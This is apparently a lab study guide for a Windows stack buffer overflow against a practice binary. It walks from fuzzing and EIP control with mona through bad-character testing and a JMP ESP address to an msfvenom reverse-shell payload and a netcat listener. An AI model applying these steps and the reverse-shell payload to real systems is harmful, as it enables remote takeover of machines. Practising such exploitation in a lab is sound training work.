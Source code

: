 # bof
Buffer Overflows

Setup
	• Open Immunity Debugger as admin
	• In Immunity Debugger, set a working folder for mona:
		!mona config -set workingfolder c:\mona\%p

Fuzzing
	• In Kali, create the fuzzer.py script and execute
	• Note the size of the largest string sent
	• Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
		$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <string+400>
	• Create exploit.py with the generated payload
		
Control EIP
	• Relaunch target.exe and run exploit.py
	• In Immunity Debugger, run findmsp:
		!mona findmsp -distance 600
	• Locate "EIP contains normal pattern: <> (offset <>)"
	• Update exploit.py with new values:
		○ Set offset variable value in exploit.py to 1978
		○ Set payload to empty string
		○ Set retn variable to 'BBBB'
	• Relaunch target.exe and run exploit.py
	• EIP should now be overwritten with 42424242

Find Bad Characters
Iteration 0
	• Create a bytearray in Mona:
		!mona bytearray -b "\x00"
		Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)
	• In Kali, create and run a python script to generate bad characters:
		from __future__ import print_function
		
		for x in range(1, 256):
		    print("\\x" + "{:02x}".format(x), end='')
		
		print()
	• Update payload variable in exploit.py with badchars string

Iteration 1..n of n
	• Reload target.exe and run exploit.py
	• Run !mona compare with the ESP address
		!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>
	• Generate a new bytearray in Mona, excluding all badchars from the comparison result:
		!mona bytearray -b "\x00\x07\x2e\xa0"
		Note: don't include sequential characters
	• Remove badchars from exploit.py:
		payload = "<all non-bad characters>"
	• All bad characters identified when result: "Unmodified"

Jump Point
	• Run !mona jmp to identify all jump points with addresses that don't contain badchars:
		!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"
	• Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
		○ Mona address: "0x625011af"
		○ Python address: "\xaf\x11\x50\x62"

Generate Payload and NOPs
	• Create a payload with msfvenom:
		msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py
	• Update payload of exploit.py with 'buf' variable definition and set payload = buf
	• Set padding variable to 16 NOP bytes:
		padding = "\x90" * 16

Exploitation
	• Start nc listener on :port
	• Reload target.exe and exploit
